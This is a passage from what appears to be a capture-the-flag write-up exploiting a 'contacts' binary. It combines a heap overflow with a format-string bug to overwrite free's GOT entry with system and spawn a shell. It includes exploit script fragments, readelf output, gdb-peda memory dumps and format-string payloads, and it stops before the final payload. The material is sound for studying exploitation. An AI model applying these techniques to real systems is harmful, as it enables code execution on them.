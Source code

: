 So here we can see the entire heap space for the contact we created. It starts off with the dexcription pointer `0x8da4020`, then has the phone pointer `0x08da4010`, then the name char array, then has the length int 0x32 (hex for 50), and then the enabled int. So with the overflow we will be able to overwrite the two integers at the end, since they are the only things after that. However we can create a second contact, and use the first contact to overflow into the phone pointer for the second. Since we can view it with the format string, we will be able to write to the address. Since it only has partial RELRO, we can write to the GOT table. First let's find a function that we can overwrite to system.

```
      free(*(void **)contact_heap_space);
```

So after a bit of searching, the free function looks like a good canidate. It is only called twices, and not anywhere that should crash it before we can pop a shell. In addition to that, we can control the argument to it (it's the description of the user) so we can easily pass `/bin/sh` to it.

```
$	readelf -a contacts_54f3188f64e548565bc1b87d7aa07427 | grep free
0804b014  00000307 R_386_JUMP_SLOT   00000000   free@GLIBC_2.0
     3: 00000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.0 (2)
```

So we can see that the GOT address for free is 0x804b014. Next we need to leak an address from the stack. We can do this by overflowing a phone number pointer with the got address of free. Let's figure out the overflow by editing the code above to add a second user (using the below code) and looking at gdb.

```
#Create the second contact
target.sendline("1")
target.sendline("guy1")
target.sendline("4685193270")
target.sendline("50")
target.sendline("1"*50)
print target.recvuntil(">>>")
```

onto gdb:
```
gdb-peda$ find %1
Searching for '%1' in: None ranges
Found 14 results, display max 14 items:
[heap] : 0x9f2d020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
  libc : 0xf75b92b8 (<__libc_start_main+312>:	and    eax,0xbcebc031)
  libc : 0xf75cba1c (<__open_catalog+188>:	and    eax,0x5b8c931)
  libc : 0xf75d652e (and    eax,0x1f38c031)
  libc : 0xf75d959e (and    eax,0x1f38c031)
  libc : 0xf761710b (and    eax,0xcf81c731)
  libc : 0xf761b8b0 (<strchrnul+272>:	and    eax,0xcf81cf31)
  libc : 0xf761df2a (<strxfrm_l+1978>:	and    eax,0xbebd231)
  libc : 0xf761eafa (<strxfrm_l+5002>:	and    eax,0xbebd231)
  libc : 0xf76e6e3a (and    eax,0xfa83d631)
  libc : 0xf7701b12 ("%10u\n")
  libc : 0xf7701b2b ("%10u\n")
  libc : 0xf7701b59 ("%10u\n")
  libc : 0xf7701b72 ("%10lu\n")
gdb-peda$ find 0x9f2d020
Searching for '0x9f2d020' in: None ranges
Found 2 results, display max 2 items:
contacts_54f3188f64e548565bc1b87d7aa07427 : 0x804b0a0 --> 0x9f2d020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
                                  [stack] : 0xfff1c2fc --> 0x9f2d020 ("%1$x.%2$x.%3$x.%4$x.%5$x.%6$x.%7$x.%8$x.%9$x\n")
gdb-peda$ x/x 0x804b0a0
0x804b0a0:	0x09f2d020
gdb-peda$ x/40w 0x804b0a0
0x804b0a0:	0x09f2d020	0x09f2d010	0x30797567	0x00000000
```